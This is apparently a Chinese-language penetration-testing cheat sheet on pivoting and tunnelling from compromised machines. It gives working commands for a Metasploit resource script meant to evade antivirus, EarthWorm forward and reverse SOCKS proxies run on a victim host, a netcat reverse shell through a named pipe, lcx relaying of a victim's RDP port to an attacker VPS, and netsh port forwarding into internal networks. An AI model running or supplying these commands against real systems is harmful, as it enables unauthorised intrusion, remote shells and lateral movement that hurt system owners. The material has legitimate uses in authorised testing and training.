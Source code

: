 ```

msfconsole -r veil.rc (其中veil.rc是之前生成的，bypass)

python -m SimpleHTTPServer 80虚拟机里开启，在外访问虚拟机ip即可下载虚拟机文件

## ew
---
tools: http://rootkiter.com/EarthWorm  
新版tools： http://rootkiter.com/Termite/  
正向：

    被攻击机(跳板)：
            temp目录下
            unzip ew.zip
            file /sbin/init (查看linux位数)
            chmod 755 ew_for_Linux
            ./ew_for_Linux -s ssocksd -l 9999 (侦听0.0.0.0:9999)
            netstat -pantu|grep 9999 (查看是否侦听成功)
    攻击机：
            proxychain设置socks5 为跳板ip port
            proxychain nmap即可以用跳板代理扫描其他主机

反向：

	攻击机：
		chmod 777 ./ew_for_linux64
		./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机2333端口，转发到本机的1080端口，访问本机的1080端口，相当访问被攻击机的2333
		设置proxychain socks5 本主机ip port：1080
		proxychain代理即可
	被攻击机：
		chmod 777 ew_for_linux
		./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333

## nc
---
[nc简单使用](https://tom0li.github.io/nc/)  
linux root 权限  

    mknod /tmp/backpipe p  
    /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe

权限不够用mkfifo /tmp/backpipe  
以上用nc监听即可

## lcx
---

	被攻击机 lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389
	vps      lcx.exe –listen 8888 5555
	
在本机mstsc登陆139.1.2.3:5555或在vps连接127.0.0.1:5555

## netsh win自带(只支持tcp)360拦
---

    netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.1.101 connectport=8080  
将本地80转到192.168.1.101:8080端口
	
	netsh interface portproxy add v4tov4 listenaddress=1.1.1.101 listenport=8082 connectaddress=192.168.2.102 connectport=3389  
通过连接1.1.1.101的8082端口，相当连接1.1.1.101可访问的内网192.168.2.102的3389端口
```